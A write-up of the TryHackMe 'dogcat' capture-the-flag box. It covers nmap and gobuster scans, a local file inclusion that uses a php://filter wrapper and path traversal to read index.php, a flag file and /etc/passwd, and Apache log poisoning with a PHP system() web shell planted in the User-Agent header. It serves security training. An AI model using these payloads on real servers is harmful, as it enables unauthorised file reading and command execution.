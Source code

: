 # 'dogcat' box writeup
## dogcat is a CTF box created by jammy and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [LFI using wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter), [Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.23.37``

+ **We observe 2 open ports, ssh and an http, the last one with an Apache service**

# ![h](images/nmapp.jpg?raw=true "dog")

+ **Taking a look inside the web page, we can see a gallery made of dog and cats; pressing one of the buttons, an image shows up and we can observe the [view] parameter inside our URL**

# ![h](images/webpage.png?raw=true "dog")

**I've tried out some LFI from this position but with no success. So i changed the query string, adding some text inside**

# ![h](images/triedo2.jpg?raw=true "dog")

**It looks that the LFI vuln is present, but in a different form. The php script seems to include the page that we insert into the [view] parameter, openning a stream. But, the ``/etc/passwd`` that we inserted now has another extension: a ``.php``one. Also, the strings needs to contains another substring inside: ``cat``. If we're not using this string, we have no output from our request**


+ **Now, let's try a gobuster scan to see what php files we can find so maybe we can read them**

``gobuster dir -u http://10.10.23.37/ -w /usr/share/wordlists/dirb/common.txt -x php``

# ![h](images/gobusto.jpg?raw=true "dog")

+ **Now we know that there's index.php and flag.php files inside our directory. Now, reading some of the LFI techniques, we can spot a PHP wrapper way: we are going to try to use a base64 encoding type to convert the content of the php index file and finally to read it. We must keep in mind the fact that the ``cat`` substring need to be inside our main string. Let's apply the filter over our [view] parameter**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=index``

# ![h](images/index.jpg?raw=true "dog")

+ **Here we have the content of index.php page, encoded with base64. Let's decode it and look into our page source code, where we can see some interesting php code**

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

+ **Let's understand this php code to see what's happening behind:** 
We have a **containsStr** function which returns the first occurence of a substring in a string; it's like the C **strstr** function.

Another thing it's that **$ext** variable which will be checked inside the URL parameter: if **$ext** exists, the URL file's extension will be used, else there will be set a *php* extension. We saw before that every string that we insert will end by having a *php* extension.

Then, the script checks if the view parameter is not NUL and checks if the query string contains the cat or dog substrings. If this happens, we get the inclusion and simultanously the extension is set with our **$ext**. 

So, we need to insert a **$ext** variable inside our view parameter, but without some value so we can read any file on the system

+ **We can read our first flag1 using the same wrapper, which outputs the flag php page now, encoded with the same base64**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=flag``

+ **Let's move on and try to read the /etc/passwd file. I included the $ext value in the URL too**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=../../../../etc/passwd&ext=``

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

# Log poison

+ **We can use LFI for path traversal and now we're moving on next step: log poison so we can access the system. Looking into the access.log file it seems like we are gonna use the User Agent poisoning**

``http://10.10.23.37/?view=cat/../../../../var/log/apache2/access.log&ext=``

# ![h](images/logpoison.jpg?raw=true "dog")

+ **In order to explain a little bit the log poison procedure, in the /var/log/apache2 folder, there's a file called access.log which keeps all the requests of the apache web-site. We are gonna modify the User-Agent parameter in our GET request with a system cmd so we can get a shell, the system will parse that log file and we will enter inside. The first method i will do this will be with the help of burpsuite. Take a request so we can modify it.

**Modify the User-Agent:** ``<?php echo system($_GET["cmd"]); ?>``
**Insert the 'cmd' variable into the URL and try a command (i've tried ls)**

# ![h](images/burpreds.jpg?raw=true "dog")

+ **We can see we have our output of ls command**



